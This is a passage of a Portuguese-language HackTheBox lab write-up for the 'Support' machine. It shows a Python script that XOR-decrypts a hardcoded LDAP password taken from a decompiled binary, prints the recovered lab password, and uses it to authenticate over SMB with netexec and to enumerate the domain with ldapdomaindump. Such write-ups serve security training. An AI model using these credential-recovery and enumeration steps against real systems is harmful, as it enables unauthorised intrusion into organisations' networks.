 ​	Feito o decompile, podemos analisar o código fonte e ver onde a conexão é feita para podermos pegar o usuário e a senha.

![](/home/kali/Desktop/HTB/machines/to-do/support/ss/connection_ldap.png)

​	Após uma análise, podemos descobrir que a senha está encryptada. 

![](/home/kali/Desktop/HTB/machines/to-do/support/ss/encrypted.png)

​	Podemos usar o **chatgp** para escrever um code de decrypt em python3 para facilitar nossa vida. 

```python
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"

def decrypt_password(encoded_password, decryption_key):
    decoded_bytes = base64.b64decode(encoded_password)
    key_length = len(decryption_key)
    decrypted_bytes = bytearray(decoded_bytes)

    for i in range(len(decoded_bytes)):
        decrypted_bytes[i] = (decoded_bytes[i] ^ decryption_key[i % key_length] ^ 0xDF)

    return decrypted_bytes.decode('latin-1')

# Chamada da função para obter e imprimir a senha descriptografada
senha_descriptografada = decrypt_password(enc_password, key)
print("Senha descriptografada:", senha_descriptografada)
```

​	Após executar o código escrito pelo chatgpt, conseguimos a senha do usuário.

```bash
┌──(kali㉿kali)-[~/…/HTB/machines/to-do/support]
└─$ python3 a.py      
Senha descriptografada: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

​	Com as credenciais de acesso, podemos fazer enumeracão de LDAP com **ldapdomaindump**.

```bash
┌──(kali㉿kali)-[~/…/HTB/support]
└─$ netexec smb support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
SMB         10.129.227.255  445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.129.227.255  445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz

┌──(kali㉿kali)-[~/…/HTB/support/ldapdomaindump]
└─$ ldapdomaindump support.htb -u 'support.htb\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished                                                                                                                                                                        
┌──(kali㉿kali)-[~/…/HTB/support/ldapdomaindump]
└─$ ls                                                                                         
domain_computers_by_os.html  domain_computers.json  domain_groups.json  domain_policy.json  domain_trusts.json          domain_users.html
domain_computers.grep        domain_groups.grep     domain_policy.grep  domain_trusts.grep  domain_users_by_group.html  domain_users.json
domain_computers.html        domain_groups.html     domain_policy.html  domain_trusts.html  domain_users.grep
```
